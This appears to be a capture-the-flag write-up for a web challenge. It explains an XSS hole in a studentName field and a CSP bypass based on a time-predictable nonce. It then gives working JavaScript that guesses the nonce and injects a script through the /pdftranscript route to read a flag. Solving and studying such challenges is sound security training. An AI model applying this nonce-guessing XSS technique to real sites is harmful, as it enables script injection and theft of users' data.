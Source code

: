 The /viewtranscript route is blatantly vulnerable to XSS through the studentName field
in the transcript request. However, the CSP prevents injected scripts from running
without the nonce, which would be sufficient protection against XSS were it not for
the predictability of nonce generation. Since the nonce is just the current time
rounded to the nearest 5 seconds and encoded as base64, an attacker can guess the
nonce and thus allow his script to run despite the CSP. Obviously, attacking the
/viewtranscript route itself is useless since it runs on the user's own computer,
but the /pdftranscript route instead runs on the remote server and thus attacking
it yields the flag.

Here's an example solution (enter into browser console from the main page):
```js
const time = String(Math.round(new Date().getTime() / 1_000) + 3)
const nonce = btoa(time.slice(0, -1) + (Number(time.at(-1)) >= 5 ? '5' : '0') + '000')
window.location.href = '/pdftranscript?transcript=' + encodeURIComponent(JSON.stringify({
    studentName: `<script nonce="${nonce}">document.write(localStorage.flag)</script>`,
    courses: []
}))
```

Note that this script might take a few tries to work because the nonce
might be slightly off.
